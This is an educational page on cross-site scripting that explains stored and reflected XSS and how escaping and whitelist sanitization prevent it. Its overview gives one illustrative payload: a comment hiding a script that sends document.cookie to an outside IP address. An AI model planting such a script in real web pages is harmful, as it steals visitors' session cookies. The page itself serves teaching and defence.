# Cross Site Scripting

Author: Tan Wang Leng

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Text boxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a text box for visitors of the blog to enter comments.

However, are commenters limited to just typing in plain text? Some websites do not
check the input, thus commenters are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem arises when the commenter starts using HTML for malicious purposes. For
example, HTML also supports `<script>`, for you to write JavaScript code on the
webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**. Therefore, the hacker
can write any script that he wants (in our example, a function to send to the
hacker the user's cookies), without the user even being aware of what's going
on.

Therefore, the hacker has managed to add additional malicious "functionality" to
the website, that is not written by the original website developer.

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32)
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29
1. http://www.symantec.com/connect/blogs/cross-site-scripting-vulnerabilities

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and the web browser of future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database. For example:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 33)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
1. http://security.stackexchange.com/questions/65142/what-is-reflected-xss

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Resources:

1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(2.2 RULE #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content)
(2.7 RULE #6 - Sanitize HTML Markup with a Library Designed for the Job)
1. https://github.com/OWASP/java-html-sanitizer
1. https://github.com/rails/rails_xss
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
